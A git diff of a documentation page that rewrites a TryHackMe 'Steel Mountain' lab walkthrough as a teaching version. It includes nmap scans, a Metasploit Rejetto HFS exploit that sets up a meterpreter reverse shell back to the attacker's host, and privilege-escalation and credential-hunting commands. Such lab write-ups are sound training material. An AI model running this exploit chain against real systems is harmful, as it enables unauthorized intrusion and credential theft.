

Before and after one commit to DeSecurity/Redteam-Hermes, an MkDocs documentation site: the page built from docs/walkthroughs/THM/steel-mountain-live.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs(thm): rewrite steel mountain as teaching-first walkthrough flow

````diff
--- a/docs/walkthroughs/THM/steel-mountain-live.md
+++ b/docs/walkthroughs/THM/steel-mountain-live.md
@@ -1,169 +1,159 @@
-# Steel Mountain (THM) — Walkthrough (Guided)
+# Steel Mountain (THM) — Walkthrough (Teaching Version)
 
-Status: In Progress (foothold repeatedly confirmed; SYSTEM privesc still in progress)
+Status: In Progress (initial access repeatedly confirmed; privesc to SYSTEM in progress)
 Target: 10.146.141.173
 Scope: Authorized TryHackMe lab target only
-Last validated (UTC): 2026-05-22 23:10:00Z
 
-## Goal of this walkthrough
-This page is written so someone can follow it step-by-step:
-1) confirm the exposed service,
-2) get initial shell access,
-3) enumerate privilege escalation paths,
-4) progress toward SYSTEM and final proof.
+## Why this walkthrough is structured this way
+The goal is to teach decision-making, not just run commands.
+For a new machine, start broad, then narrow:
+1) full-port discovery,
+2) service/version enumeration on discovered ports,
+3) web validation,
+4) exploit selection based on evidence,
+5) post-exploitation and privilege escalation.
 
-## Prerequisites
-- Active THM VPN with exactly one tun interface.
-- Kali/Parrot attacker host.
-- Metasploit installed.
+## Step 1 — Full TCP port discovery first
+Start with all ports so you do not miss alternate entry points.
 
-Quick preflight:
 ```bash
-ip -br a | grep -E '^tun[0-9]'
-```
-Expected: one active tunnel only.
-
-Find your callback IP:
-```bash
-ip -4 -o addr show tun0 | awk '{print $4}' | cut -d/ -f1
+nmap -Pn -n -p- --min-rate 1000 -T4 10.146.141.173 -oN scans/steel-allports.txt
 ```
 
-## Step 1 — Recon and service fingerprinting
-Run:
+Example outcome on this target:
+- 80/tcp open
+- 8080/tcp open
+
+Why this matters:
+- You now know the attack surface before making assumptions.
+
+## Step 2 — Service/version enumeration on discovered ports
+Now enumerate only what was found in step 1.
+
 ```bash
-nmap -Pn -n -p80,8080 -sV 10.146.141.173
+nmap -Pn -n -sC -sV -p80,8080 10.146.141.173 -oN scans/steel-services.txt
+```
+
+Observed:
+- 80/tcp: Microsoft IIS 8.5
+- 8080/tcp: HttpFileServer (HFS) 2.3
+
+## Step 3 — Validate web behavior manually
+Check both web ports directly.
+
+```bash
+curl -sI http://10.146.141.173:80 | head
 curl -sI http://10.146.141.173:8080 | head
 ```
 
-Expected indicators:
-- tcp/8080 shows HttpFileServer 2.3
-- HTTP header includes `Server: HFS 2.3`
-
-Proof captured:
+Observed indicator:
 ```text
-PORT     STATE SERVICE VERSION
-80/tcp   open  http    Microsoft IIS httpd 8.5
-8080/tcp open  http    HttpFileServer httpd 2.3
-
 HTTP/1.1 200 OK
 Server: HFS 2.3
 ```
 
-## Step 2 — Initial access via Rejetto HFS exploit
-Start Metasploit:
-```bash
-msfconsole
+Why this matters:
+- Version evidence drives exploit selection.
+
+## Step 4 — Exploit research: Metasploit first, Searchsploit second
+Use Metasploit search first because you are already in an exploitation framework and can move directly to execution.
+
+In msfconsole:
+```text
+search hfs
+search rejetto
+info exploit/windows/http/rejetto_hfs_exec
 ```
 
+Why searchsploit was also used:
+- Cross-check CVE/EDB references independently.
+- Provide alternate PoC path if MSF module is unavailable/fails.
+
+Searchsploit check:
+```bash
+searchsploit hfs 2.3
+searchsploit -m 39161
+```
+
+Decision here:
+- HFS 2.3 + known module available -> use `exploit/windows/http/rejetto_hfs_exec`.
+
+## Step 5 — Initial access with evidence
 In msfconsole:
 ```text
 use exploit/windows/http/rejetto_hfs_exec
 set RHOSTS 10.146.141.173
 set RPORT 8080
 set payload windows/meterpreter/reverse_tcp
-set LHOST <YOUR_TUN_IP>
+set LHOST <YOUR_VPN_IP>
 set LPORT 4444
 run -z
-```
-
-Verify session:
-```text
 sessions -l
 ```
 
 Proof captured:
 ```text
-[*] Meterpreter session 1 opened (192.168.129.182:4444 -> 10.146.141.173:49395)
-
-Id  Type                     Information                         Connection
-1   meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN  192.168.129.182:4444 -> 10.146.141.173:49395
+[*] Meterpreter session opened (... -> 10.146.141.173:49xxx)
+meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN
 ```
 
-## Step 3 — Stabilize one session and baseline host context
-Use one active session ID from `sessions -l`:
+## Step 6 — Post-exploitation baseline (before privesc)
 ```text
 sessions -i <ID>
 getuid
 sysinfo
-shell
-whoami
-whoami /priv
+shell -c whoami
+shell -c whoami /priv
+shell -c type C:\Users\bill\Desktop\user.txt
 ```
 
-What to record:
-- current user (expected foothold user: `STEELMOUNTAIN\bill`)
-- integrity/privileges from `whoami /priv`
-- OS/build from `sysinfo`
+Why this matters:
+- Confirms user context, OS, privilege baseline, and user-level proof.
 
-## Step 4 — PrivEsc methodology branches (guided order)
-If one branch stalls, move to the next. Do not loop only one command.
+## Step 7 — PrivEsc methodology (what to try and why)
+Move through branches systematically:
 
-### Branch A: token/SYSTEM checks
+1. Token/SYSTEM quick wins
 ```text
 getsystem
 load incognito
 list_tokens -u
 ```
-Objective: identify direct SYSTEM path or impersonation candidate.
 
-### Branch B: local exploit suggestions + system enum
+2. Local exploit and host enumeration
 ```text
 run post/multi/recon/local_exploit_suggester
-run post/windows/gather/enum_system
+run post/windows/gather/enum_services
 ```
-Objective: produce candidate local privesc vectors tied to patch level/services.
 
-### Branch C: services and scheduled tasks
+3. Service/task abuse checks
 ```text
 shell -c sc query state^= all
 shell -c schtasks /query /fo LIST /v
 ```
-Objective: find weak service/task configs usable for escalation.
 
-### Branch D: credential/secrets paths
+4. Credential/secrets checks
 ```text
 shell -c cmdkey /list
 shell -c dir C:\ /b /s *unattend*.xml
 ```
-Objective: recover stored credentials or unattended install secrets.
 
-## Step 5 — Proof checkpoints to keep while working
-Minimum checkpoints for a reproducible walkthrough:
-1) recon proof (service + version),
-2) foothold proof (session open + `sessions -l`),
-3) privesc milestone proof (`NT AUTHORITY\SYSTEM` or equivalent evidence).
+Goal:
+- Convert bill context to `NT AUTHORITY\SYSTEM` and capture administrator/root proof.
 
-When SYSTEM is achieved, capture:
-```text
-getuid
-shell -c whoami
-```
-Expected: `NT AUTHORITY\SYSTEM`.
+## What changed from earlier draft
+- Removed repetitive tunnel-ops reminders from narrative.
+- Restored proper teaching flow: full-port scan first, targeted enumeration second.
+- Added explicit exploit-selection reasoning (MSF search first, searchsploit as corroboration/fallback).
 
-## Snapshots (current session)
-### Snapshot 1 — Service discovery
-Time (UTC): 2026-05-22 22:04:45Z
-- HFS 2.3 confirmed on 8080.
-- IIS 8.5 confirmed on 80.
+## Current progress snapshot
+- Recon validated: 80 + 8080.
+- HFS 2.3 confirmed.
+- Multiple successful meterpreter footholds as `STEELMOUNTAIN\bill` observed.
+- Active work: deterministic privesc chain to SYSTEM with proof output.
 
-### Snapshot 2 — First validated foothold
-Time (UTC): 2026-05-22 22:24:24Z
-- Meterpreter session opened.
-- Session context: `STEELMOUNTAIN\bill @ STEELMOUNTAIN`.
-
-### Snapshot 3 — Foothold reliability
-Time (UTC): 2026-05-22 22:41:15Z
-- Additional Meterpreter sessions opened in later cycles.
-- Confirms exploit path reliability.
-
-## Timeline (signal only)
-- 2026-05-22 22:04:45Z — Recon confirms IIS 8.5 (80) + HFS 2.3 (8080).
-- 2026-05-22 22:24:24Z — First Meterpreter foothold opened as bill.
-- 2026-05-22 22:37:20Z — Additional foothold opened (repeatability confirmed).
-- 2026-05-22 22:41:11Z / 22:41:15Z — More Meterpreter sessions opened.
-- 2026-05-22 23:00:00Z — Escalation workflow shifted to branch-based methodology.
-
-## Current assessment
-- Initial access path is stable and reproducible.
-- Next technical milestone is SYSTEM proof with clean command/output evidence.
-- This page will be updated with the exact privesc path once SYSTEM is confirmed.
+## Next update condition
+This walkthrough will be updated with:
+1) exact privesc path used,
+2) SYSTEM proof output,
+3) final administrator/root flag proof.
````
